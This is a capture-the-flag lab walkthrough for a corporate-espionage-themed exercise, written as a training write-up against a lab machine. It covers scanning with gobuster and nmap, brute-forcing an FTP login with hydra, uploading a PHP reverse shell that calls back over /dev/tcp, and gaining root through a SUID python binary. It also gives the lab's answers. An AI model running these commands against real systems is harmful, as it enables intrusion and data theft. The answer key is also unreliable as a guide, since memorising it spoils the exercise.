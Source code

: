 # 02 - Revalry (Lab)

There is a striking competition between the software giants VertexWave International and Orbitronix Systems, as both continuously struggle for market dominance. Recently, VertexWave International has assigned you, a skilled hacker, a secret mission suitable for this critical task.

Your mission is to access sensitive data related to the sales and marketing strategies of Orbitronix Systems. This information is of vital importance because Orbitronix Systems has established a partnership with the famous Create Edge Advertising Agency, known for its innovative and highly effective marketing campaigns, in order to surpass VertexWave. 

Questions Walkthrough:
1. How many new clients does the CEO of Orbitronix Systems, Emily Johnson, claim they have gained?


![](Assets/Pasted%20image%2020251028142452.png)

Answer: 3500

Question 2: What is the advertising budget of Orbitronix Systems in dollars?


To begin, we need to gather information about the target lets perform a gobuster scan.

```
gobuster dir -u "http://172.20.25.114" -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,txt,html,bak,old
```


![](Assets/Pasted%20image%2020251028143058.png)

We found a hidden directory `/ftp` lets explore it.

Here we found a file named `clients.csv` lets read it.
```
Company Name,Advertising Budget ($),Campaign Objective,Campaign Success,Target Audience,Campaign Duration (Months)
Innovatech Ltd,50000,Customer Retention,Yes,Long-term Customers,6
QuantumSoft,75000,Sales Increase,No,Professionals,3
...
Orbitronix Systems,225000,Brand Awareness,Yes,Young Adults,12
...
```
Answer: 225000

Question 3: Who is the target audience of the Orbitronix Systems advertising campaign?

Answer: Young Adults

Quesiton 4: What is the name of the secret marketing tool developed by Create Edge?

In order to access to this info we need to gain access to the server. Lets perform an nmap scan to identify open ports and services.

```
nmap -sSVC 172.20.58.90
```

![](Assets/Pasted%20image%2020251028143206.png)

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: CREATEEDGE
Service Info: OS: Unix
```
We found an FTP service on port 21 and a web server on port 80. Lets check the web server first.
Connecting anonymously to the FTP server didn't work so lets try a hydra attack on the default user `ftpuser`.

```
hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://172.20.58.90
```

![](Assets/Pasted%20image%2020251028143502.png)

Bingo we found that the password is `password` lets enumerate the ftp server.

```
ftp 172.20.58.90
```

![](Assets/Pasted%20image%2020251028143555.png)

We just found the already known `clients.csv` lets try to upload a php reverse shell and access it via the website.
```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.65.249/4444 0>&1'");
?>
```
Then we upload the shell with `put shell.php`
Create a netcat listener on our machine.
```
nc -lvnp 4444
```
And visit your browser on `http://172.20.58.90/ftp/shell.php`

Bingo now we have a reverse shell as www-data lets try to escalate privileges

Lets look for files with SETUID bit set.
```
find / -perm -4000 2>/dev/null
```

![](Assets/Pasted%20image%2020251028144201.png)

Great we found that /usr/bin/python3.9 has the SUID bit set. Lets exploit it to get a root shell.
```
/usr/bin/python3.9 -c "import os;os.setuid(0);os.system('bash')"
```

![](Assets/Pasted%20image%2020251028144408.png)

Great now lets enumerate

We found an interesting file in `/archive/meetings` lets read it.
```
cat /archive/meetings/orbitronix_system-2023-11-20.txt
```
Bingo here we found the name of the secret marketing tool.


![](Assets/Pasted%20image%2020251028144639.png)


Answer: InsightNexus AI


